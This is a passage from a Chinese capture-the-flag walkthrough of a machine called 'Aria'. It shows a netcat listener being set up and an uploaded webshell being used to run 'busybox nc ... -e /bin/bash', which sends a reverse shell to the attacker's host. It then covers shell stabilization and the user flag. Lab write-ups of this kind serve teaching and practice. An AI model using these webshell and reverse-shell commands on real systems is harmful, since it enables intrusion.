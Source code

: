    脚本成功找到了上传后的 Webshell 地址。

# **三、获取 Shell 与提权**

## **3.1 反弹 Shell**

为了更方便地进行交互，我们利用已有的RCE漏洞来获取一个反弹shell。

1. **在Kali上设置监听**

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
   └─$ nc -lvnp 8888                      
   listening on [any] 8888 ...
   ```

2. **触发反弹 Shell**
   在浏览器中访问以下URL，命令目标服务器使用`busybox nc`连接我们的监听端口。

   `http://192.168.205.131/uploads/a06d0c0ae19cab9352271c103cf13055.gif?0=busybox nc 192.168.205.128 8888 -e /bin/bash`

3. **接收 Shell**
   回到Kali终端，我们成功接收到了来自目标服务器的连接。

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
   └─$ nc -lvnp 8888                      
   listening on [any] 8888 ...
   connect to [192.168.205.128] from (UNKNOWN) [192.168.205.131] 49668
   id
   uid=33(www-data) gid=33(www-data) groups=33(www-data)
   ```

## **3.2 Shell 稳定化**

为了获得一个功能更全的交互式TTY Shell，执行以下命令进行稳定化：

```bash
script /dev/null -c bash
# 按下 Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 24 columns 80
```

## **3.3 用户提权**

在目标系统中搜寻敏感信息，我们发现`user.txt`文件，但其内容包含异常字符。

```bash
www-data@Aria:/var/www/html$ cd /home/aria
www-data@Aria:/home/aria$ ls -al
...
-rw-r--r-- 1 root root  404 Aug 15 00:23 user.txt
www-data@Aria:/home/aria$ cat user.txt
flag{user-d13adadc6bbc1391394a5198cba2d1d7}
​‌‌‌​‌​​​‌‌​‌‌‌‌​‌‌​‌​‌‌​‌‌​​‌​‌​‌‌​‌‌‌​​​‌‌‌​‌​​​‌​​​​​​‌‌​‌‌​‌​‌‌​​​​‌​‌‌‌‌​‌​​‌‌​​‌​‌​​‌​‌‌​‌​‌‌‌​​‌‌​‌‌​​‌​‌​‌‌​​​‌‌
```
